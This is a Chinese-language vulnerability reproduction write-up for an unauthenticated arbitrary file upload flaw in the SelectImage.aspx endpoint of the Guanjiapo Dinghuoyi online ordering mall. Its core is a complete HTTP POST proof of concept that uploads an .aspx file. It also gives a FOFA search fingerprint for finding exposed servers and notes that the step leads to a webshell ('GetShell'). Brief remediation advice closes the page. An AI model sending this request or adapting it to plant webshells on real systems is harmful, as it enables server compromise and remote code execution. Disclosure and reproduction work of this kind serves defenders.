






# 管家婆订货易在线商城任意文件上传漏洞复现

### 0x01 产品简介

    管家婆订货易，帮助传统企业构建专属的订货平台，PC+微信+APP+小程序+h5商城5网合一，无缝对接线下的管家婆ERP系统，让用户订货更高效。支持业务员代客下单，支持多级推客分销，以客带客，拓展渠道。让企业的生意更轻松。

### 0x02 漏洞概述

  管家婆订货易在线商城SelectImage.aspx接口处存在任意文件上传漏洞，未经身份认证的攻击者可以通过该漏洞，上传恶意后门文件，深入利用可造成代码执行和服务器失陷。

### 0x03 复现环境

FOFA：icon\_hash="-1513302527"



### 0x04 漏洞复现

PoC

```cobol
POST /DialogTemplates/SelectImage.aspx?type=titleimg&size=30*100&pageindex=1&iscallback=true HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15(KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=532c7611457d40f4ae4cd9422973416b

--532c7611457d40f4ae4cd9422973416b
Content-Disposition: form-data; name="Filedata"; filename="1.aspx"
Content-Type: image/jpeg

<% Response.Write("Test"); %>
--532c7611457d40f4ae4cd9422973416b--
```

 回显了完整的上传路径

 GetShell





 

### 0x05 修复建议 

关闭互联网暴露面，文件上传接口处设置权限控制，添加黑白名单过滤

打补丁或升级至安全版本
